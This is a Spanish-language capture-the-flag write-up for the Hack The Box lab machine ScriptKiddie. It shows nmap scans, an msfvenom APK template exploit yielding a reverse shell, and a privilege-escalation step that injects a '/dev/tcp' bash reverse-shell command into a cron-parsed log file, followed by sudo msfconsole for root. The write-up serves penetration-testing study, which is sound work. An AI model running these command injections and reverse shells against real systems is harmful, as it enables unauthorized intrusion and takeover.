 # Script Kiddie

<h1 align="center">
  <br>
  <img src="images/kiddie.png" alt="ScriptKiddie">
  <br>
</h1>

***
**Machine IP**: ## 10.10.10.226

**DATE**  : 16/06/2021
***


## Reconocimiento
Primero hacemos un escaneo de puertos para saber cuales están abiertos y conocer sus servicios correspondientes.

## Nmap 

```bash
┌──(s4yhii㉿kali)-[~]
└─$ nmap -p- --open -T5 -v -n 10.10.10.226                 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-15 20:45 EDT
Initiating Ping Scan at 20:45
Scanning 10.10.10.226 [2 ports]
Completed Ping Scan at 20:45, 0.12s elapsed (1 total hosts)
Initiating Connect Scan at 20:45
Scanning 10.10.10.226 [65535 ports]
Discovered open port 22/tcp on 10.10.10.226
Stats: 0:00:20 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 29.62% done; ETC: 20:46 (0:00:48 remaining)
Discovered open port 5000/tcp on 10.10.10.226
Completed Connect Scan at 20:46, 60.38s elapsed (65535 total ports)
Nmap scan report for 10.10.10.226
Host is up (0.12s latency).
Not shown: 52711 closed ports, 12822 filtered ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 60.62 seconds
```

Como vemos tiene 2 puertos abiertos el `22` y el `5000` uno con el servicio `ssh` y el otro con el servicio de `Plug and Play`, que se usa para conectar impresoras, dispositivos bluetooh, etc.

Analizando las versiones de los puertos abiertos encontramos lo siguiente.

```bash
┌──(s4yhii㉿kali)-[~]
└─$ nmap -sC -sV -n -p22,5000 10.10.10.226
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-15 20:55 EDT
Nmap scan report for 10.10.10.226
Host is up (0.12s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.78 seconds
```

Econtramos que hay un `servidor web` corriendo en el puerto 5000 con la cabecera `k1d'5 h4ck3r t00l5`, lo abrimos en el navegador.

![](images/web.png)

Luego de analizar estas 3 funcionalidades me di cuenta que la parte de `payloads` acepta un archivo , el cual podríamos generar con `msfvenom`, por eso buscamos en exploits `msfvenom` y nos genera solo un resultado.

![](images/venom.png)

Abrimos `mestasploit` para generar el apk con el payload, configuramos `LPORT` y `LHOST` con nuestra ip y el puerto asignado y nos genera un apk ,el cual procederemos a subir a la web como template.

![](images/apk.png)

Una vez generado subimos a la web y escribimos la ip de nuestra maquina y como OS seleccionamos android, ya que es una apk, luego ponemos en escucha nuestra maquina con el comando `nc -nlvp 4444` y le damos a generar.

Automáticamente se nos abrirá una reverse shell con el usuario kid.

![](images/reverse.png)

Luego como tenemos acceso de escritura de la carpeta `.ssh`, añadiremos nuestro `id_rsa` a la carpeta de `known_hosts` para conectarnos directamente desde nuestra maquina via `ssh`.

![](images/ssh.png)

Como vemos ahora tenemos una shell más interactiva y tenemos acceso al `user.txt`.

![](images/usertxt.png)

## Escalamiento de privilegios

Como podemos ver este script es ejecutado con permisos pwn, y nos dice que abrirá el archivo hackers para hacer un nmap. 
Al igual que la maquina bashed, se aprovecha de una tarea automática `cron`, que es ejecutado como usuario pwn, pero el log `hackers` se puede editar por `kid`, entonces esa será nuestra idea, cargaremos el archivo `hackers` con una `reverse shell bash`.



```bash
  echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.186/4446 0>&1' #" > hackers
```

Dejamos 2 espacios, ya que en el script de `scanlosers` al momento de tomar el texto toma a partir del 3er espacio porque hay un `cut -f3-`, que tomaria los paramatros a partir del 3ero. 

![](images/pwn.png)

Como vemos obtuvimos una shell como pwn gracias al script `scanlosers` y ahora enumeraremos con sudo -l los binarios con permisos `SUID`

```bash
sudo -l
```

![](images/suid.png)

Como vemos metasploit tiene permisos `SUID` para ejecutarse como `root`, entonces lo ejecutamos con sudo msfconsole y bingo obtenemos sesión como root y podremos ver el `root.txt`

```bash
sudo msfconsole
```

![](images/roottxt.png)

!Gracias por leer.